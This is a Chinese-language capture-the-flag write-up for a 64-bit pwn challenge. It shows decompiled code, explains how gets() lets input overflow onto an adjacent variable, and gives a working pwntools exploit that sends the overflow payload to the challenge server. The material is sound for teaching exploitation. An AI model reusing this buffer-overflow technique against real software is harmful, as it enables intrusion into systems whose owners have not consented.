 ## 0x03 when_did_you_born

checksec 一下发现是64位的elf 也没有PIE

逆向得到核心代码

```cpp
__isoc99_scanf("%d", &v5); 
if ( v5 == 1926 )
  {
    puts("You Cannot Born In 1926!");
    result = 0LL;
  }
  else
  {
    puts("What's Your Name?");
    gets(&v4);
    printf("You Are Born In %d\n", v5);
    if ( v5 == 1926 )
    {
      puts("You Shall Have Flag.");
      system("cat flag");
    }
```

也就是说我们在第一步不能让v5=1926

但是要让v5在第二步为1926

怎么办呢。

了解到

> gets从标准输入设备读字符串函数，其可以无限读取，不会判断上限，以回车结束读取，所以程序员应该确保buffer的空间足够大，以便在执行读操作时不发生溢出。

所以我们可以通过溢出的方式把本来应该在v4里的数据覆盖到v5上

通过ida我们可以看到

```cpp
  char v4; // [rsp+0h] [rbp-20h]
  unsigned int v5; // [rsp+8h] [rbp-18h]
  unsigned __int64 v6; // [rsp+18h] [rbp-8h]
```

也就是说v4和v5相差8位,可构造

### Payload

```python
payload="a"*8+p64(1926)
```

### Exp

```python
#coding=utf-8
from pwn import *
payload="a"*8+p64(1926)
io=remote("111.198.29.45","44355")
io.sendlineafter("What's Your Birth?","1234")
io.sendlineafter("What's Your Name?",payload)
io.interactive()
```
